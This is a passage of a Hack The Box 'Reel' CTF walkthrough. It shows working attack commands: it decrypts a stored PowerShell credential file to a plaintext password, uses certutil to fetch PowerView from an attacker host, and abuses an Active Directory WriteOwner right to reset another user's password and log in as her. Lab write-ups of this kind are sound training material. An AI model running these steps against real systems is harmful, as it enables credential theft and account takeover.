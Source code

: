 I googled about how to decrypt it and found this link and `$cred=Import-CliXml -Path [file](file); $cred.GetNetworkCredential().Password` this is the command which helps to decrypt.

```bash
C:\Users\nico\Desktop>powershell.exe -c "$cred=Import-CliXml -Path C:\Users\nico\Desktop\cred.xml; $cred.GetNetworkCredential().Password"
powershell.exe -c "$cred=Import-CliXml -Path C:\Users\nico\Desktop\cred.xml; $cred.GetNetworkCredential().Password"
1ts-mag1c!!!
```

We Know Port 22 is Open, So I used the password to Login.

![Untitled](/img/htb-reel/Untitled%202.png)

Once I logged in, I uploaded SharpHound and collected all the information's needed BloodHound and downloaded it to my machine.

Imported the ZIP file to BloodHound, While going through all the Queries, I came to know TOM have WriteOwner Permission again CLAIRE user.

![Untitled](/img/htb-reel/Untitled%203.png)

## PrivEsc → Claire

To get claire account, We can use the WriteOwner permission along with the functionality of PowerView.

- WriteOwner - change object owner to attacker controlled user take over the object

Steps:

- First we became the owner of Claire's ACL
- Then We get Reset Password Permission
- And use that permission to change it.

```bash
PS C:\Users\tom> certutil -urlcache -split -f http://10.10.14.30/PowerView.ps1              
****  Online  ****                                                                          
  000000  ...                                                                               
  0bc0e7                                                                                    
CertUtil: -URLCache command completed successfully.                                         
PS C:\Users\tom> Import-Module .\PowerView.ps1                                              
PS C:\Users\tom> Set-DomainObjectOwner -identity claire -OwnerIdentity tom                            
PS C:\Users\tom> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword                                                                                
PS C:\Users\tom> $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force   
PS C:\Users\tom> Set-DomainUserPassword -identity claire -accountpassword $SecPassword      
```

Password Changed successfully.

And Im logged in SSH as Claire now.

![Untitled](/img/htb-reel/Untitled%204.png)
